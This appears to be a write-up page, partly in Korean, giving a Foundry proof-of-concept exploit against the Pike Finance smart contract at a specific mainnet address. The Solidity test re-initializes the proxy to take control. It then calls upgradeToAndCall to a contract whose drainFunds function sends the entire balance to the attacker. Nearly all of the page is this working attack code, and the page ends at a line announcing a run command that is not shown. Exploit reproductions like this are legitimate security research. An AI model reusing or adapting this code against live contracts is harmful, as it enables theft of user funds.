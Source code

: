 ![exploit](/assets/img/pikeFinance/img.png)

---

## PoC
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

interface IPikeFinance {
    function initialize(address, address, address, address, uint16, uint16) external;
    function upgradeToAndCall(address, bytes memory) external;
}

contract Poc is Test {
    uint256 private constant FORK_BLOCK = 19771058;
    address private constant TARGET_CONTRACT = 0xFC7599cfFea9De127a9f9C748CCb451a34d2F063;

    function setUp() public {
        vm.deal(address(this), 0);
        vm.createSelectFork(vm.envString("MAINNET_RPC_URL"), FORK_BLOCK);
    }

    function testExploit() public {
        address attacker = address(this);
        address wNative = address(this);
        address dexHelper = address(this);
        address token = address(this);

        IPikeFinance(TARGET_CONTRACT).initialize(attacker, wNative, dexHelper, token, 20, 20);

        IPikeFinance(TARGET_CONTRACT).upgradeToAndCall(address(this), abi.encodeWithSignature("drainFunds(address)", address(this)));
    }

    function drainFunds(address recipient) external {
        payable(recipient).call{value: address(this).balance}("");
    }

    function proxiableUUID() external pure returns (bytes32) {
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    receive() external payable {}
}
```

아래 명령어로 테스트를 실행할 수 있습니다.  
